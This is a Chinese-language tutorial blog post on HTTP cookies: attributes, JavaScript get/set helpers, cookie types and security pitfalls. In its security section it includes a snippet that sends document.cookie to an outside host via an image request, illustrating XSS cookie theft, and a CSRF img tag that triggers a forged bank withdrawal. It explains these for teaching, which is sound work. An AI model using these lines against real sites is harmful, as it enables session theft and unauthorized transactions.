 ```yaml
---
layout: post
title: HTTP Cookie
category: 网络
---
```


* toc
{:toc}


Web 服务常常需要用户进行登录，比如订票、买东西，只有登录了才能和服务器才知道当前客户对应的是哪一个账户。

在 HTTP 协议中，通过 cookie 来标识客户。cookie 是一组记录在客户端的信息，客户端的每次 HTTP 请求都要把 cookie 传给服务器。服务器可以通过 `Set-Cookie` 头部字段设置一条 `cookie`。

如此，在客户首次与服务器建立连接时，服务器可以设置一个 cookie，比如 `name=wang`，下次客户端发起新的请求是就会带上这条 cookie，如此服务器就知客户是谁了。


## 检查 cookie 是否开启

可以通过 navigator.cookieEnabled 这个属性判断浏览器是否开启了cookie。

## cookie 的属性

### path

默认的 cookie 只对于他的同级目录和子目录可见，而对于父级目录不可见，比如在 `http://www.example.com/blog/category/index.html` 这个页面创建的 cookie 就不能被 `http://www.example.com/blog/index.html` 访问到。但是他对于 `/category` 目录中的文档是可见的。但是有的时候我希望来自同一个域名下的文档都可以共享 cookie 这个时候就可以将path 属性设置为 `/` 。

### domain

有的时候子域名间需要共享cookie,这个时候就需要用来 domain 属性。

### secure

这是一个布尔类型属性，它用来指示cookie以何种形式通过网络传输，如果为 true ，那么必须是 https 协议才能进行传输。

## 保存 cookie

```js
document.cookie = "version="+encodeURIComponent(document.lastModified)
```

cookie 的名值中不允许有`;`出现，所以在存储的时候需要对其进行编码。按上面的方式存储 cookie 的有效期只是在浏览器会话期间，要想延长 cookie 的有效期就需要设置 max-age 属性来指示 cookie 的有效期。（单位为秒）

```
name=value;max-age=seconds
```

需要设置其他属性同样只需要在设置cookie 之前追加在字符串后面就行了

```
;path=path
;domain=domain
;secure
```

要改变 cookie 的值就按同样的方法再次设置就可以了。如果删除一个 cookie 只需将他的 max-age 设置为 0 就可以了。


## cookie 的局限性

为每个 web 服务器保存的 cookie 不能超过20个，单个cookie大小不能超过4KB

## cookie 的分类

### 1. session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### 2. Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### 3. Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### 4. HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。


### 5. Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的注意事项

### Domain 和 Path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 ``/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement(‘img’);
img.src = ‘www.foo.com?’+ ‘text=’ + escape(document.cookie);
```

### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

## 使用 javascript 操作 cookie

```javascript
util.setCookie = function(name, value, dayToLive, option) {
	var cookie = name + '=' + encodeURIComponent(value);
	if (typeof dayToLive === 'number') {
		cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
	}
	if (option) {
		for (var key in option) {
			if (key === 'path') {
				cookie += ';path=' + option[key];
			} else if (key === 'domain') {
				cookie += ';domain=' + option[key];
			} else if (key === 'secure') {
				cookie += ';secure';
			}
		}
	}
	document.cookie = cookie;
};

util.getCookie = function(name) {
	var cookie = document.cookie;
	var list = cookie.split(/;\s/);
	for (var i = 0; i < list.length; i++) {
		var pair = list[i].split('=');
		if (pair[0] == name) {
			return decodeURIComponent(pair[1]);
		}
	}
	return null;
};
```

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。

